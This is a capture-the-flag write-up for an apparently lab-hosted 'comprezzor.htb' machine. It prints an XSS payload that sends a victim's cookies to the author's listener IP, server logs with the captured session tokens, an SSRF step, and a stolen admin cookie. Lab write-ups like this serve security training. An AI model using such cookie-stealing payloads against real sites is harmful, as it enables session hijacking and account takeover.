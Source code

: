 ## User Flag

To gain unauthorized access, I decided to attempt stealing cookies using a cross-site scripting (XSS) vulnerability. I used the bug report form on **report.comprezzor.htb** for this purpose. Here is the payload I used:

```html
<script>var i=new Image(); i.src="http://10.10.14.102:80/?cookie="+btoa(document.cookie);</script>
```

This payload successfully captured the cookie by sending the cookie data to my server at **`http://10.10.14.102`**. With this session cookie, I could potentially access restricted areas like **dashboard.comprezzor.htb**, demonstrating a significant security flaw that could be exploited for further penetration testing.

After countless attempts and troubleshooting, I finally managed to capture the session cookie. This involved restarting the processes and refining my methods multiple times, but persistence paid off.

```xml
10.129.54.146 - - [28/Apr/2024 11:51:15] "GET /user_data=eyJ1c2VyX2lkIjogMiwgInVzZXJuYW1lIjogImFkYW0iLCAicm9sZSI6ICJ3ZWJkZXYifXw1OGY2ZjcyNTMzOWNlM2Y2OWQ4NTUyYTEwNjk2ZGRlYmI2OGIyYjU3ZDJlNTIzYzA4YmRlODY4ZDNhNzU2ZGI4 HTTP/1.1" 404 -
10.129.54.146 - - [28/Apr/2024 11:51:15] code 404, message File not found
10.129.54.146 - - [28/Apr/2024 11:51:15] "GET /user_data=eyJ1c2VyX2lkIjogMiwgInVzZXJuYW1lIjogImFkYW0iLCAicm9sZSI6ICJ3ZWJkZXYifXw1OGY2ZjcyNTMzOWNlM2Y2OWQ4NTUyYTEwNjk2ZGRlYmI2OGIyYjU3ZDJlNTIzYzA4YmRlODY4ZDNhNzU2ZGI4 HTTP/1.1" 404 -
```

![Untitled](Untitled%201.png)

Using the stolen cookie, I accessed the "Create PDF Report" site. From here, I executed a Server-Side Request Forgery (SSRF) attack by manipulating the report URL to send a request to my own HTTP server. This allowed me to intercept and analyze the server's response.

Through this SSRF attack, I received a new cookie:

```
eyJ1c2VyX2lkIjogMSwgInVzZXJuYW1lIjogImFkbWluIiwgInJvbGUiOiAiYWRtaW4ifXwzNDgyMjMzM2Q0NDRzZTBlNDAyMmY2Y2M2NzlhYzlkMjZkMWQxZDY4MmM1OWM2MWNmYmVhMjlkNzc2ZDU4OWQ5
```
